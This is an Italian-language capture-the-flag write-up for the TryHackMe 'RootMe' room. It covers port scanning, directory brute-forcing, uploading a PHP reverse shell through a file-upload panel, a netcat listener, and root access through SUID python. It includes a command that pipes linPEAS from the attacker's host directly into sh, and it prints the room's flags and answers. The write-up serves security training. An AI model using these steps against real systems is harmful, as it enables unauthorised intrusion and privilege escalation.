 # RootMe

RootMe è un Capture The Flag (CTF) di livello facile, progettato per sviluppare competenze avanzate di penetration testing e escalation dei privilegi. Iniziamo il nostro viaggio accedendo alla macchina bersaglio tramite la nostra Kali Linux e avviando una scansione Nmap per esplorare le porte e i servizi disponibili.

```sh
└─$ sudo nmap -p- -sS -A 10.10.152.152
```
![Alt text](img/image.png)

I risultati della scansione rivelano due porte aperte: la porta 22 per SSH e la porta 80 per HTTP. Queste informazioni ci permettono di rispondere a tre domande fondamentali:

$${\color{red}Scan \space the \space machine, \space how \space many \space ports \space are \space open?
} \space {\color{green}2}$$

$${\color{red}What \space version \space of \space Apache \space is \space running?
} \space {\color{green}2.4.29}$$

$${\color{red}What \space service \space is \space running \space on \space port \space 22?
} \space {\color{green}SSH}$$

Dopo la scansione, ci dirigiamo verso il servizio HTTP sulla porta 80. Nonostante un'animazione accattivante, decidiamo di utilizzare goBuster per individuare eventuali directory nascoste.

![Alt text](img/image-1.png)

```sh
└─$ gobuster dir -u "http://10.10.152.152:80" -w /usr/share/wordlists/dirb/common.txt
```
![Alt text](img/image-2.png)

All'interno della directory "/panel/", scopriamo un'area dedicata al caricamento di file, indicando la possibilità di un potenziale exploit. Sfruttando l'ambiente Apache, carichiamo una reverse shell in PHP dopo averla personalizzata con il nostro indirizzo IP e la porta. Successivamente, mettiamo in ascolto con Netcat prima di interagire con la nostra reverse shell attraverso la directory "/uploads/".

$${\color{red}What \space is \space the \space hidden \space directory?
} \space {\color{green}/panel/}$$

[https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php]

![Panel](img/image-3.png)

![Uploads](img/image-4.png)

```sh
└─$ nc -lnvp 4444
```
Una volta ottenuto l'accesso al sistema, procediamo alla ricerca del file "user.txt".
![Alt text](img/image-5.png)

```sh
└─$ find / -name user.txt 2>/dev/null
```
![Alt text](img/image-6.png)

$${\color{red}user.txt
} \space {\color{green}THM\{y0u\_g0t\_a\_sh3ll\}}$$

Rispondiamo alla prima domanda del Task 4, eseguendo una ricerca dei file con permessi SUID.

```sh
└─$ find / -user root -perm /4000
```
Identificando il file "weird" nella directory "/usr/bin/python", approfondiamo ulteriormente l'analisi. Scarichiamo linPEAS sulla nostra macchina e lo trasferiamo al sistema bersaglio attraverso un server web Python temporaneo e in fine lo eseguiremo.

![Alt text](img/image-8.png)

$${\color{red}Search \space for \space files \space with \space SUID \space permission, \space which \space file \space is \space weird?
} \space {\color{green}/usr/bin/python}$$

Ora per prendere l'ultima flag devo scalare i privilegi e per farlo mi aiuto con linPEAS.<br>
quindi lo scarico sulla mia macchina da qui
https://github.com/carlospolop/PEASS-ng/releases/tag/20231231-3221ac1a

```sh
└─$ sudo python -m http.server 8000
└─$ curl 10.14.65.216/linpeas.sh | sh
```

L'output di linPEAS evidenzia numerosi riferimenti a "python", aprendo la possibilità di utilizzarlo per leggere il contenuto del file "root.txt" nella directory "/root/".

```sh
└─$ python -c 'print(open("/root/root.txt").read())' 
```
Rispondendo all'ultima domanda del CTF, otteniamo il flag di root:

![Alt text](img/image-7.png)

$${\color{red}root.txt
} \space {\color{green}THM\{pr1v1l3g3_3sc4l4t10n\}}$$


